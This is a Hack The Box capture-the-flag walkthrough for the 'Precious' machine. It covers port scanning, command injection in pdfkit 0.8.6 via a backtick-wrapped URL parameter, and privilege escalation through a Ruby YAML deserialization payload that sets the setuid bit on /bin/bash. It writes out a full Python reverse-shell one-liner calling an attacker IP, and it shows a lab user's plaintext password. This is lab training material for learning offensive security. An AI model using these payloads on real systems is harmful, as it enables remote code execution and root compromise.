 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
---
```


```jsx
 IP : 10.10.11.189

sudo nano /etc/hosts
10.10.11.189    precious.htb
```

## PORT SCAN RESULTS ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Precious]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.189**
Starting Nmap 7.93 ( https:/nmap.org ) at 2023-04-15 12:14 IST
Nmap scan report for 10.10.11.189
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http:/precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeartion ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%201.png)

Now on Burpsuite I got the pdf Generation version and Name >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%202.png)

Since it is using `pdfkit v0.8.6`  to generate pdfs So I dig into it and I found that this version is vulnerable > 

![Untitled](/Vulnhub-Files/img/Precious/Untitled%203.png)

It leads us to Link : [Exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795/)

After reading the `POC` I got to known that we can use any get `parameter`
 name and inside that use the `backticks` to injection our command.

```bash
http:/<LOCAL-IP>:<LOCAL-PORT>/?name=%20 `id(command)`
```

Now lets try it out now ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%204.png)

And it generated the pdf with results >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%205.png)

So lets try for reverse shell now ⤵️

```bash
http:/10.10.14.33:8888/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%206.png)

I got this >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%207.png)

Now lets Login into henry ⤵️

```jsx
henry : **Q3c1AqGHtoI0aXAYFH**
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%209.png)

Now lets see how to get to root >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2010.png)

Now let’s see what is inside this **update_dependencies.rb** file >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2011.png)

It is loading this dependencies.yml file >>

```bash
bash-5.1$ cat dependencies.yml]
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
bash-5.1$
```

Now I know that the /bin/bash permissions are changed so lets exploit it >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2012.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2013.png)

Lets see the flag now ⤵️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2014.png)